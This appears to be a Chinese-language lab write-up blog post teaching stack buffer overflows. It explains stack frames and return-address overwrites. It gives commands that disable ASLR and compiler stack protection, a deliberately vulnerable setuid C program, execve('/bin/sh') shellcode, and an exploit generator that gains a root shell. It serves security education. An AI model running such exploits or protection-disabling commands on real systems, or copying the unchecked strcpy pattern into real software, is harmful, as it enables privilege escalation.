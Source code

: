 ```yaml
---
layout: post
title: stackOverflow
categories:
- paper
tags:
- technology
- 
---
```


##缓冲区溢出漏洞实验

##一、实验简介

缓冲区溢出是指程序试图向缓冲区写入超出预分配固定长度数据的情况。这一漏洞可以被恶意用户利用来改变程序的流控制，甚至执行代码的任意片段。这一漏洞的出现是由于数据缓冲器和返回地址的暂时关闭，溢出会引起返回地址被重写。

顾名思义，缓冲区溢出的含义是为缓冲区提供了多于其存储容量的数据，就像往杯子里倒入了过量的水一样。通常情况下，缓冲区溢出的数据只会破坏程序数据，造成意外终止。
但是如果有人精心构造溢出数据的内容，那么就有可能获得系统的控制权.

缓冲区在系统中的表现形式是多样的，高级语言定义的变量、数组、结构体等在运行时可以说都是保存在缓冲区内的，
因此所谓缓冲区可以更抽象地理解为一段可读写的内存区域，缓冲区攻击的最终目的就是希望系统能执行这块可读写内存中已经被蓄意设定好的恶意代码
按照冯·诺依曼存储程序原理，程序代码是作为二进制数据存储在内存的，同样程序的数据也在内存中，因此直接从内存的二进制形式上是无法区分哪些是
数据哪些是代码的，这也为缓冲区溢出攻击提供了可能。

<img src="https://github.com/dengguang2012/paper-Reading-Report/blob/master/illustraction/22.jpg" style="width: 50%; height: 50%"/>

图1是进程地址空间分布的简单表示。代码存储了用户程序的所有可执行代码，在程序正常执行的情况下，程序计数器（PC指针）只会在代码段和操作系统地址空间（内核态）内寻址。数据段内存储了用户程序的全局变量，文字池等。栈空间存储了用户程序的函数栈帧（包括参数、局部数据等），实现函数调用机制，它的数据增长方向是低地址方向。堆空间存储了程序运行时动态申请的内存数据等，数据增长方向是高地址方向。除了代码段和受操作系统保护的数据区域，其他的内存区域都可能作为缓冲区，因此缓冲区溢出的位置可能在数据段，也可能在堆、栈段。如果程序的代码有软件漏洞，恶意程序会“教唆”程序计数器从上述缓冲区内取指，执行恶意程序提供的数据代码！本文分析并实现栈溢出攻击方式。

栈的主要功能是实现函数的调用。因此在介绍栈溢出原理之前，需要弄清函数调用时栈空间发生了怎样的变化。每次函数调用时，系统会把函数的返回地址（函数调用指令后紧跟指令的地址），一些关键的寄存器值保存在栈内，函数的实际参数和局部变量（包括数据、结构体、对象等）也会保存在栈内。这些数据统称为函数调用的栈帧，而且是每次函数调用都会有个独立的栈帧，这也为递归函数的实现提供了可能。

<img src="https://github.com/dengguang2012/paper-Reading-Report/blob/master/illustraction/23.jpg" style="width: 50%; height: 50%"/>

如图所示，我们定义了一个简单的函数function，它接受一个整形参数，做一次乘法操作并返回。当调用function(0)时，arg参数记录了值0入栈，并将call function指令下一条指令的地址0x00bd16f0保存到栈内，然后跳转到function函数内部执行。每个函数定义都会有函数头和函数尾代码，如图绿框表示。因为函数内需要用ebp保存函数栈帧基址，因此先保存ebp原来的值到栈内，然后将栈指针esp内容保存到ebp。函数返回前需要做相反的操作——将esp指针恢复，并弹出ebp。这样，函数内正常情况下无论怎样使用栈，都不会使栈失去平衡。

sub esp,44h指令为局部变量开辟了栈空间，比如ret变量的位置。理论上，function只需要再开辟4字节空间保存ret即可，但是编译器开辟了更多的空间（这个问题很诡异，你觉得呢？）。函数调用结束返回后，函数栈帧恢复到保存参数0时的状态，为了保持栈帧平衡，需要恢复esp的内容，使用add esp,4将压入的参数弹出。

之所以会有缓冲区溢出的可能，主要是因为栈空间内保存了函数的返回地址。该地址保存了函数调用结束后后续执行的指令的位置，对于计算机安全来说，该信息是很敏感的。如果有人恶意修改了这个返回地址，并使该返回地址指向了一个新的代码位置，程序便能从其它位置继续执行。

上边给出的代码是无法进行溢出操作的，因为用户没有“插足”的机会。但是实际上很多程序都会接受用户的外界输入，尤其是当函数内的一个数组缓冲区接受用户输入的时候，一旦程序代码未对输入的长度进行合法性检查的话，缓冲区溢出便有可能触发！比如下边的一个简单的函数。
 

	void fun(unsigned char *data)
	{
		unsigned char buffer[BUF_LEN];
		strcpy((char*)buffer,(char*)data);//溢出点
	}

这个函数没有做什么有“意义”的事情（这里主要是为了简化问题），但是它是一个典型的栈溢出代码。在使用不安全的strcpy库函数时，系统会盲目地将data的全部数据拷贝到buffer指向的内存区域。buffer的长度是有限的，一旦data的数据长度超过BUF_LEN，便会产生缓冲区溢出。

<img src="https://github.com/dengguang2012/paper-Reading-Report/blob/master/illustraction/24.jpg" style="width: 50%; height: 50%"/>

由于栈是低地址方向增长的，因此局部数组buffer的指针在缓冲区的下方。当把data的数据拷贝到buffer内时，超过缓冲区区域的高地址部分数据会“淹没”原本的其他栈帧数据，根据淹没数据的内容不同，可能会有产生以下情况：

1、淹没了其他的局部变量。如果被淹没的局部变量是条件变量，那么可能会改变函数原本的执行流程。这种方式可以用于破解简单的软件验证。

2、淹没了ebp的值。修改了函数执行结束后要恢复的栈指针，将会导致栈帧失去平衡。

3、淹没了返回地址。这是栈溢出原理的核心所在，通过淹没的方式修改函数的返回地址，使程序代码执行“意外”的流程！

4、淹没参数变量。修改函数的参数变量也可能改变当前函数的执行结果和流程。

5、淹没上级函数的栈帧，情况与上述4点类似，只不过影响的是上级函数的执行。当然这里的前提是保证函数能正常返回，即函数地址不能被随意修改（这可能很麻烦！）。

如果在data本身的数据内就保存了一系列的指令的二进制代码，一旦栈溢出修改了函数的返回地址，并将该地址指向这段二进制代码的其实位置，那么就完成了基本的溢出攻击行为。

<img src="https://github.com/dengguang2012/paper-Reading-Report/blob/master/illustraction/25.jpg" style="width: 50%; height: 50%"/>

通过计算返回地址内存区域相对于buffer的偏移，并在对应位置构造新的地址指向buffer内部二进制代码的其实位置，便能执行用户的自定义代码！这段既是代码又是数据的二进制数据被称为shellcode，因为攻击者希望通过这段代码打开系统的shell，以执行任意的操作系统命令——比如下载病毒，安装木马，开放端口，格式化磁盘等恶意操作。

上述过程虽然理论上能完成栈溢出攻击行为，但是实际上很难实现。操作系统每次加载可执行文件到进程空间的位置都是无法预测的，因此栈的位置实际是不固定的，通过硬编码覆盖新返回地址的方式并不可靠。为了能准确定位shellcode的地址，需要借助一些额外的操作，其中最经典的是借助跳板的栈溢出方式。

根据前边所述，函数执行后，栈指针esp会恢复到压入参数时的状态，在图4中即data参数的地址。如果我们在函数的返回地址填入一个地址，该地址指向的内存保存了一条特殊的指令jmp esp——跳板。那么函数返回后，会执行该指令并跳转到esp所在的位置——即data的位置。我们可以将缓冲区再多溢出一部分，淹没data这样的函数参数，并在这里放上我们想要执行的代码！这样，不管程序被加载到哪个位置，最终都会回来执行栈内的代码。

<img src="https://github.com/dengguang2012/paper-Reading-Report/blob/master/illustraction/26.jpg" style="width: 50%; height: 50%"/>

在esp后继续追加shellcode代码会将上级函数的栈帧淹没，这样做并没有什么好处，甚至可能会带来运行时问题。既然被溢出的函数栈帧内提供了缓冲区，我们还是把核心的shellcode放在缓冲区内，而在esp之后放上跳转指令转移到原本的缓冲区位置。由于这样做使代码的位置在esp指针之前，如果shellcode中使用了push指令便会让esp指令与shellcode代码越来越近，甚至淹没自身的代码。这显然不是我们想要的结果，因此我们可以强制抬高esp指针，使它在shellcode之前（低地址位置），这样就能在shellcode内正常使用push指令了。




##二、实验准备

系统用户名shiyanlou
实验楼提供的是64位Ubuntu linux，而本次实验为了方便观察汇编语句，我们需要在32位环境下作操作，因此实验之前需要做一些准备。
1、输入命令安装一些用于编译32位C程序的东西：

	sudo apt-get update

	sudo apt-get install lib32z1 libc6-dev-i386

	sudo apt-get install lib32readline-gplv2-dev

2、输入命令“linux32”进入32位linux环境。此时你会发现，命令行用起来没那么爽了，比如不能tab补全了，所以输入“/bin/bash”使用bash：

##三、实验步骤

##3.1 初始设置

Ubuntu和其他一些Linux系统中，使用地址空间随机化来随机堆（heap）和栈（stack）的初始地址，这使得猜测准确的内存地址变得十分困难，而猜测内存地址是缓冲区溢出攻击的关键。因此本次实验中，我们使用以下命令关闭这一功能：
sudo sysctl -w kernel.randomize_va_space=0
此外，为了进一步防范缓冲区溢出攻击及其它利用shell程序的攻击，许多shell程序在被调用时自动放弃它们的特权。因此，即使你能欺骗一个Set-UID程序调用一个shell，也不能在这个shell中保持root权限，这个防护措施在/bin/bash中实现。
linux系统中，/bin/sh实际是指向/bin/bash或/bin/dash的一个符号链接。为了重现这一防护措施被实现之前的情形，我们使用另一个shell程序（zsh）代替/bin/bash。下面的指令描述了如何设置zsh程序：

	sudo su

	cd /bin

	rm sh

	ln -s zsh sh

	exit

##3.2 shellcode

一般情况下，缓冲区溢出会造成程序崩溃，在程序中，溢出的数据覆盖了返回地址。而如果覆盖返回地址的数据是另一个地址，那么程序就会跳转到该地址，如果该地址存放的是一段精心设计的代码用于实现其他功能，这段代码就是shellcode。
观察以下代码：

	#include <stdio.h>
	int main( ) {
	char *name[2];
	name[0] = ‘‘/bin/sh’’;
	name[1] = NULL;
	execve(name[0], name, NULL);
	}

本次实验的shellcode，就是刚才代码的汇编版本：
\x31\xc0\x50\x68"//sh"\x68"/bin"\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
3.3 漏洞程序
把以下代码保存为“stack.c”文件，保存到 /tmp 目录下。代码如下：

	/* stack.c */
	/* This program has a buffer overflow vulnerability. */
	/* Our task is to exploit this vulnerability */
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	int bof(char *str)
	{
	char buffer[12];

	/* The following statement has a buffer overflow problem */
	strcpy(buffer, str);

	return 1;
	}

	int main(int argc, char **argv)
	{
	char str[517];
	FILE *badfile;
	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 517, badfile);
	bof(str);
	printf("Returned Properly\n");
	return 1;
	}

通过代码可以知道，程序会读取一个名为“badfile”的文件，并将文件内容装入“buffer”。
编译该程序，并设置SET-UID。命令如下：

	sudo su

	gcc -m32 -g -z execstack -fno-stack-protector -o stack stack.c

	chmod u+s stack

	exit

GCC编译器有一种栈保护机制来阻止缓冲区溢出，所以我们在编译代码时需要用 –fno-stack-protector 关闭这种机制。
而 -z execstack 用于允许执行栈。
##3.4 攻击程序
我们的目的是攻击刚才的漏洞程序，并通过攻击获得root权限。
把以下代码保存为“exploit.c”文件，保存到 /tmp 目录下。代码如下：

	/* exploit.c */
	/* A program that creates a file containing code for launching shell*/
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	char shellcode[]=

	"\x31\xc0"    //xorl %eax,%eax
	"\x50"        //pushl %eax
	"\x68""//sh"  //pushl $0x68732f2f
	"\x68""/bin"  //pushl $0x6e69622f
	"\x89\xe3"    //movl %esp,%ebx
	"\x50"        //pushl %eax
	"\x53"        //pushl %ebx
	"\x89\xe1"    //movl %esp,%ecx
	"\x99"        //cdq
	"\xb0\x0b"    //movb $0x0b,%al
	"\xcd\x80"    //int $0x80
	;

	void main(int argc, char **argv)
	{
	char buffer[517];
	FILE *badfile;

	/* Initialize buffer with 0x90 (NOP instruction) */
	memset(&buffer, 0x90, 517);

	/* You need to fill the buffer with appropriate contents here */
	strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??");
	strcpy(buffer+100,shellcode);

	/* Save the contents to the file "badfile" */
	badfile = fopen("./badfile", "w");
	fwrite(buffer, 517, 1, badfile);
	fclose(badfile);
	}

	注意上面的代码，“\x??\x??\x??\x??”处需要添上shellcode保存在内存中的地址，因为发生溢出后这个位置刚好可以覆盖返回地址。
而 strcpy(buffer+100,shellcode); 这一句又告诉我们，shellcode保存在 buffer+100 的位置。
现在我们要得到shellcode在内存中的地址，输入命令：
gdb stack

disass main
结果如图：

<img src="https://github.com/dengguang2012/paper-Reading-Report/blob/master/illustraction/19.jpg" style="width: 50%; height: 50%"/>​


根据语句 strcpy(buffer+100,shellcode); 我们计算shellcode的地址为 0xffffd1b0(十六进制)+100(十进制)=0xffffd214(十六进制)
现在修改exploit.c文件！将 \x??\x??\x??\x?? 修改为 \x14\xd2\xff\xff
然后，编译exploit.c程序：
gcc -m32 -o exploit exploit.c

##3.5 攻击结果

先运行攻击程序exploit，再运行漏洞程序stack，观察结果：

<img src="https://github.com/dengguang2012/paper-Reading-Report/blob/master/illustraction/20.jpg" style="width: 50%; height: 50%"/>​

可见，通过攻击，获得了root权限！
如果不能攻击成功，提示”段错误“，那么请重新使用gdb反汇编，计算内存地址。

##四、练习

1、按照实验步骤进行操作，攻击漏洞程序并获得root权限。

2、通过命令”sudo sysctl -w kernel.randomize_va_space=2“打开系统的地址空间随机化机制，重复用exploit程序攻击stack程序，观察能否攻击成功，能否获得root权限。

3、将/bin/sh重新指向/bin/bash（或/bin/dash），观察能否攻击成功，能否获得root权限。


<img src="https://github.com/dengguang2012/paper-Reading-Report/blob/master/illustraction/21.jpg" style="width: 50%; height: 50%"/>​


